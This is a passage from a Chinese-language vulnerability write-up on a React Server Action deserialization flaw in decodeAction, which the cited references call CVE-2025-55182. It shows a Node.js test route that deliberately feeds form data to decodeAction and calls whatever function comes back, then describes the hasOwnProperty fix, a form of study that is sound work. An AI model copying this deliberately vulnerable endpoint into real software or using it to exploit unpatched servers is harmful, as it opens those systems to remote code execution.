



app-page.ts文件是App Router 页面运行时模板，打包阶段注入页面的组件树与依赖，生成可供服务器处理的页面模块。

所以一整个Server Action请求的处理逻辑就大致理清楚了

说到底这个漏洞就是关于react中的组件解析处理函数decodeAction的逻辑问题，所以为了方便测试，就直接写了一个`/formaction`路由并显示调用decodeAction函数

```javascript
  if (req.method === 'POST' && req.url === '/formaction') {
    const chunks = [];
    req.on('data', chunk => chunks.push(chunk));
    req.on('end', async () => {
      try {
        const buffer = Buffer.concat(chunks);
        const contentType = req.headers['content-type'] || '';
        const boundaryMatch = contentType.match(/boundary=(.+)/);

        if (!boundaryMatch) throw new Error('No boundary');

        const formData = parseMultipart(buffer, boundaryMatch[1]);

        console.log('FormData:');
        formData.forEach((v, k) => console.log(`  ${k}: ${v}`));

        // THE VULNERABLE CALL
        const actionFn = await decodeAction(formData, serverManifest);

        console.log('Action result:', actionFn, typeof actionFn);
        console.log('Is Function?', actionFn === Function);
        console.log('Is Object?', actionFn === Object);

        if (typeof actionFn === 'function') {
          try {
            const result = await actionFn();
            res.writeHead(200, { 'Content-Type': 'application/json' });
            res.end(JSON.stringify({ success: true, result, fnName: actionFn.name }));
          } catch (e) {
            res.writeHead(200, { 'Content-Type': 'application/json' });
            res.end(JSON.stringify({
              success: true,
              gotFunction: true,
              fnName: actionFn.name,
              error: e.message
            }));
          }
        } else {
          res.writeHead(200, { 'Content-Type': 'application/json' });
          res.end(JSON.stringify({
            success: true,
            action: String(actionFn),
            type: typeof actionFn
          }));
        }
      } catch (e) {
        console.error('Error:', e.message);
        res.writeHead(500, { 'Content-Type': 'application/json' });
        res.end(JSON.stringify({ error: e.message }));
      }
    });
    return;
  }
```

# 0x06修复代码



19.2.1 通过 `hasOwnProperty` 检查和强化 Action 引用机制修复此问题。代码修复里面添加了hasOwnProperty 检查，只允许访问对象自身的属性

到这里分析就结束了，如果文章中有错误的地方欢迎师傅们指导交流

参考文章：

https://github.com/ejpir/CVE-2025-55182-poc/

https://forum.butian.net/article/820

https://www.xsssql.com/article/1152.html
